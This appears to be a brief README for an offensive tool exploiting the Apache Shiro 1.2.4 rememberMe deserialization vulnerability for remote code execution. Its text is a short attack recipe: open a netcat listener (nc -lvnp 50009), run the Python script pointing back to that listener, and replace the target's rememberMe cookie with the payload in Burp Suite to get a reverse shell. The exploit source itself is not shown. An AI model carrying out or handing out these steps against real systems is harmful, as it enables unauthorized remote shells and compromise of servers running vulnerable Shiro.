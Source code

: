 # Apache_Shiro_1.2.4_RCE
Apache shiro &lt;= 1.2.4  rememberMe 反序列化漏洞利用工具

### nc -lvnp 50009
### python shiro_1.2.4.py ip:50009
### burpsuite  替换 Cookie: rememberMe=
